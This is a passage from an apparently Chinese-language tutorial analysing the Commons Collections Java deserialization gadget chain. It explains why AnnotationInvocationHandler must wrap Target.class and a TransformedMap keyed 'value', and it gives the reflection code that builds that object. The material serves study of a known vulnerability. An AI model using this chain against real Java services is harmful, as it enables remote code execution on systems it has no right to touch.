 从`var1.isAnnotation()`可以看到AnnotationInvocationHandler构造函数的第一个参数必须是一个元注解类型,可以选择以下四种
```java
@Target
@Retention
@Documented
@Inherited
```
```java
Entry var5 = (Entry)var4.next();
String var6 = (String)var5.getKey();
Class var7 = (Class)var3.get(var6);
if (var7 != null) {
    setValue(xxxxx)
}
```
接下来,`var4.next()`拿到了我们outMap中的的value->value,对应上边的代码可以看出必须要从var3中可以拿到值才能使var7不为空进入setValue部分。
程序获取var3的代码为`Map var3 = var2.memberTypes();`,跟进memberTypes()
![-w1054](media/15662017023838/15663118694815.jpg)
这里就需要var2的长度至少为1才能进入循环为memberTypes进行put操作，var1从以下方法中获得`var1.getDeclaredMethods();`，即第一个参数至少要有一个方法，而@Documented和@Inherited中没有方法，所以AnnotationInvocationHandler构造函数的第一个参数只能选择Target.class或者Retention.class,Target.class和Retention.class包含的函数名均为value,所以需要var6的值必须为`value`，也就是构造的TransformedMap中的key需要是`value`,不能是其他，然后AnnotationInvocationHandler构造函数第二个参数放入构造好的TransformedMap即outMap。

构造AnnotationInvocationHandler的代码如下：
```java
Map innerMap = new HashMap();
innerMap.put("value", "a");
Map outMap = TransformedMap.decorate(innerMap, null, transformerChain);
Class cls = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
Constructor constructor = cls.getDeclaredConstructor(Class.class, Map.class);
constructor.setAccessible(true);
Object instance = constructor.newInstance(Target.class, outMap);
```
